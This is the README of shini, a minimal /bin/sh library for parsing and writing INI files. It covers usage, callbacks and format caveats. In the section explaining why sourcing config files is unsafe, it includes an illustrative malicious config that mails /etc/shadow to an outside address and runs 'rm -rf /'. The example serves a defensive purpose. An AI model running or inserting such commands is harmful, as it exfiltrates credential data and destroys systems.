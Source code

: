 shini [![Build Status](https://travis-ci.org/wallyhall/shini.svg?branch=master)](https://travis-ci.org/wallyhall/shini)
=====

A small, minimialist, portable `/bin/sh` routine for reading (and now very alpha-quality writing) of INI files.

## IMPORTANT NOTE ABOUT RELEASES
Release 0.9 is mostly stable; the only major known bug is the last line of INI files is skipped from parsing if there's no empty new line at the end of the file.  (Easy work-around...)

The latest code has alpha support for writing - you can perform writes like so:

```
shini_write "filename.ini" "SECTION" "key" "New Value"
```

## About

### What is `shini`?
As above.  It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read (or write to) an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it.  A better solution.

### So `shini` just makes my shell script secure?

Erm, no.  Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shini.sh
sudo chmod 644 shini.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this:

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just execute the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool.  Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy.  You can put the content of `shini.sh` inline with your own code (not recommended, but acceptable.  Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shini.sh"
. "/usr/local/bin/shini.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments and invoking callback functions on errors and parsed values.

If you don't care about handling parse errors (`shini` will do this for you by default) then you only need define one callback function:

```
__shini_parsed ()
{
  # "$1" - section
  # "$2" - key
  # "$3" - value
}
```

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing).  Never forget you can't guraruntee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function:

```
shini_parse "settings.ini"
```

Bingo.  A full (and simple example) can be found in `example.sh`.

### Can I override the error handling?

Yes.  Just declare any or all of the following functions:

```
__shini_parse_error $LINE_NUM "$LINE"  # Error parsing a specific line
__shini_no_file_passed                 # No filename passed to the shini_parse()
__shini_file_unreadable "$INI_FILE"    # INI file wasn't readable (or wasn't a file)
```

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line.  Anything is valid, except double quotes and semi-colons.  Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values.  Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value.  Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
